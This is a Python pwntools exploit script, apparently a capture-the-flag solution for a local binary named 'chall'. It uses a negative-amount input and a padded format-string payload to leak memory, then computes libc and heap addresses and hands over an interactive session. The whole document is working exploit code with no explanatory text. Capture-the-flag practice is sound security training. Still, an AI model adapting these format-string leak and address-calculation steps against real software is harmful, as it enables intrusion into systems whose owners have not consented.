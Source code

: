 ```python
from pwn import *

context(arch="amd64",os="linux",log_level="debug")

# p = remote("127.0.0.1",9999)

p = process("./chall")

p.sendafter(b'2.exit',b'1')

p.sendafter(b'how much you want to pay?',b'-1'.ljust(8,b'\x00'))

padding = 0x100

payload = b'A'*padding + b'%13$s#'

# for i in range(1,50):
#     payload += f'%{i}$p-'.encode()

p.sendlineafter(b'opened user.log, please report:',payload)

p.sendlineafter(b'2.exit',b'1')

p.sendafter(b'how much you want to pay?',b'2'.ljust(8,b'\x00') + p64(0x404050))

p.recvline()
leak = u64(p.recvuntil(b'#')[:-1].ljust(8,b'\x00'))
success("read_addr:" + hex(leak))

libc_base = leak - 0x11ba80

success("libc_base:" + hex(libc_base))

p.sendafter(b'2.exit',b'1')

p.sendafter(b'how much you want to pay?',b'2'.ljust(8,b'\x00') + p64(libc_base+0x2031e0+1))

p.recvline()
heap_addr = u64(p.recvuntil(b'#')[:-1].ljust(8,b'\x00')) << 8
success("heap_addr:" + hex(heap_addr))

# gdb.attach(p)
# pause()

p.sendafter(b'2.exit',b'1')

p.sendafter(b'how much you want to pay?',b'2'.ljust(8,b'\x00') + p64(heap_addr+0x480))

p.interactive()
```
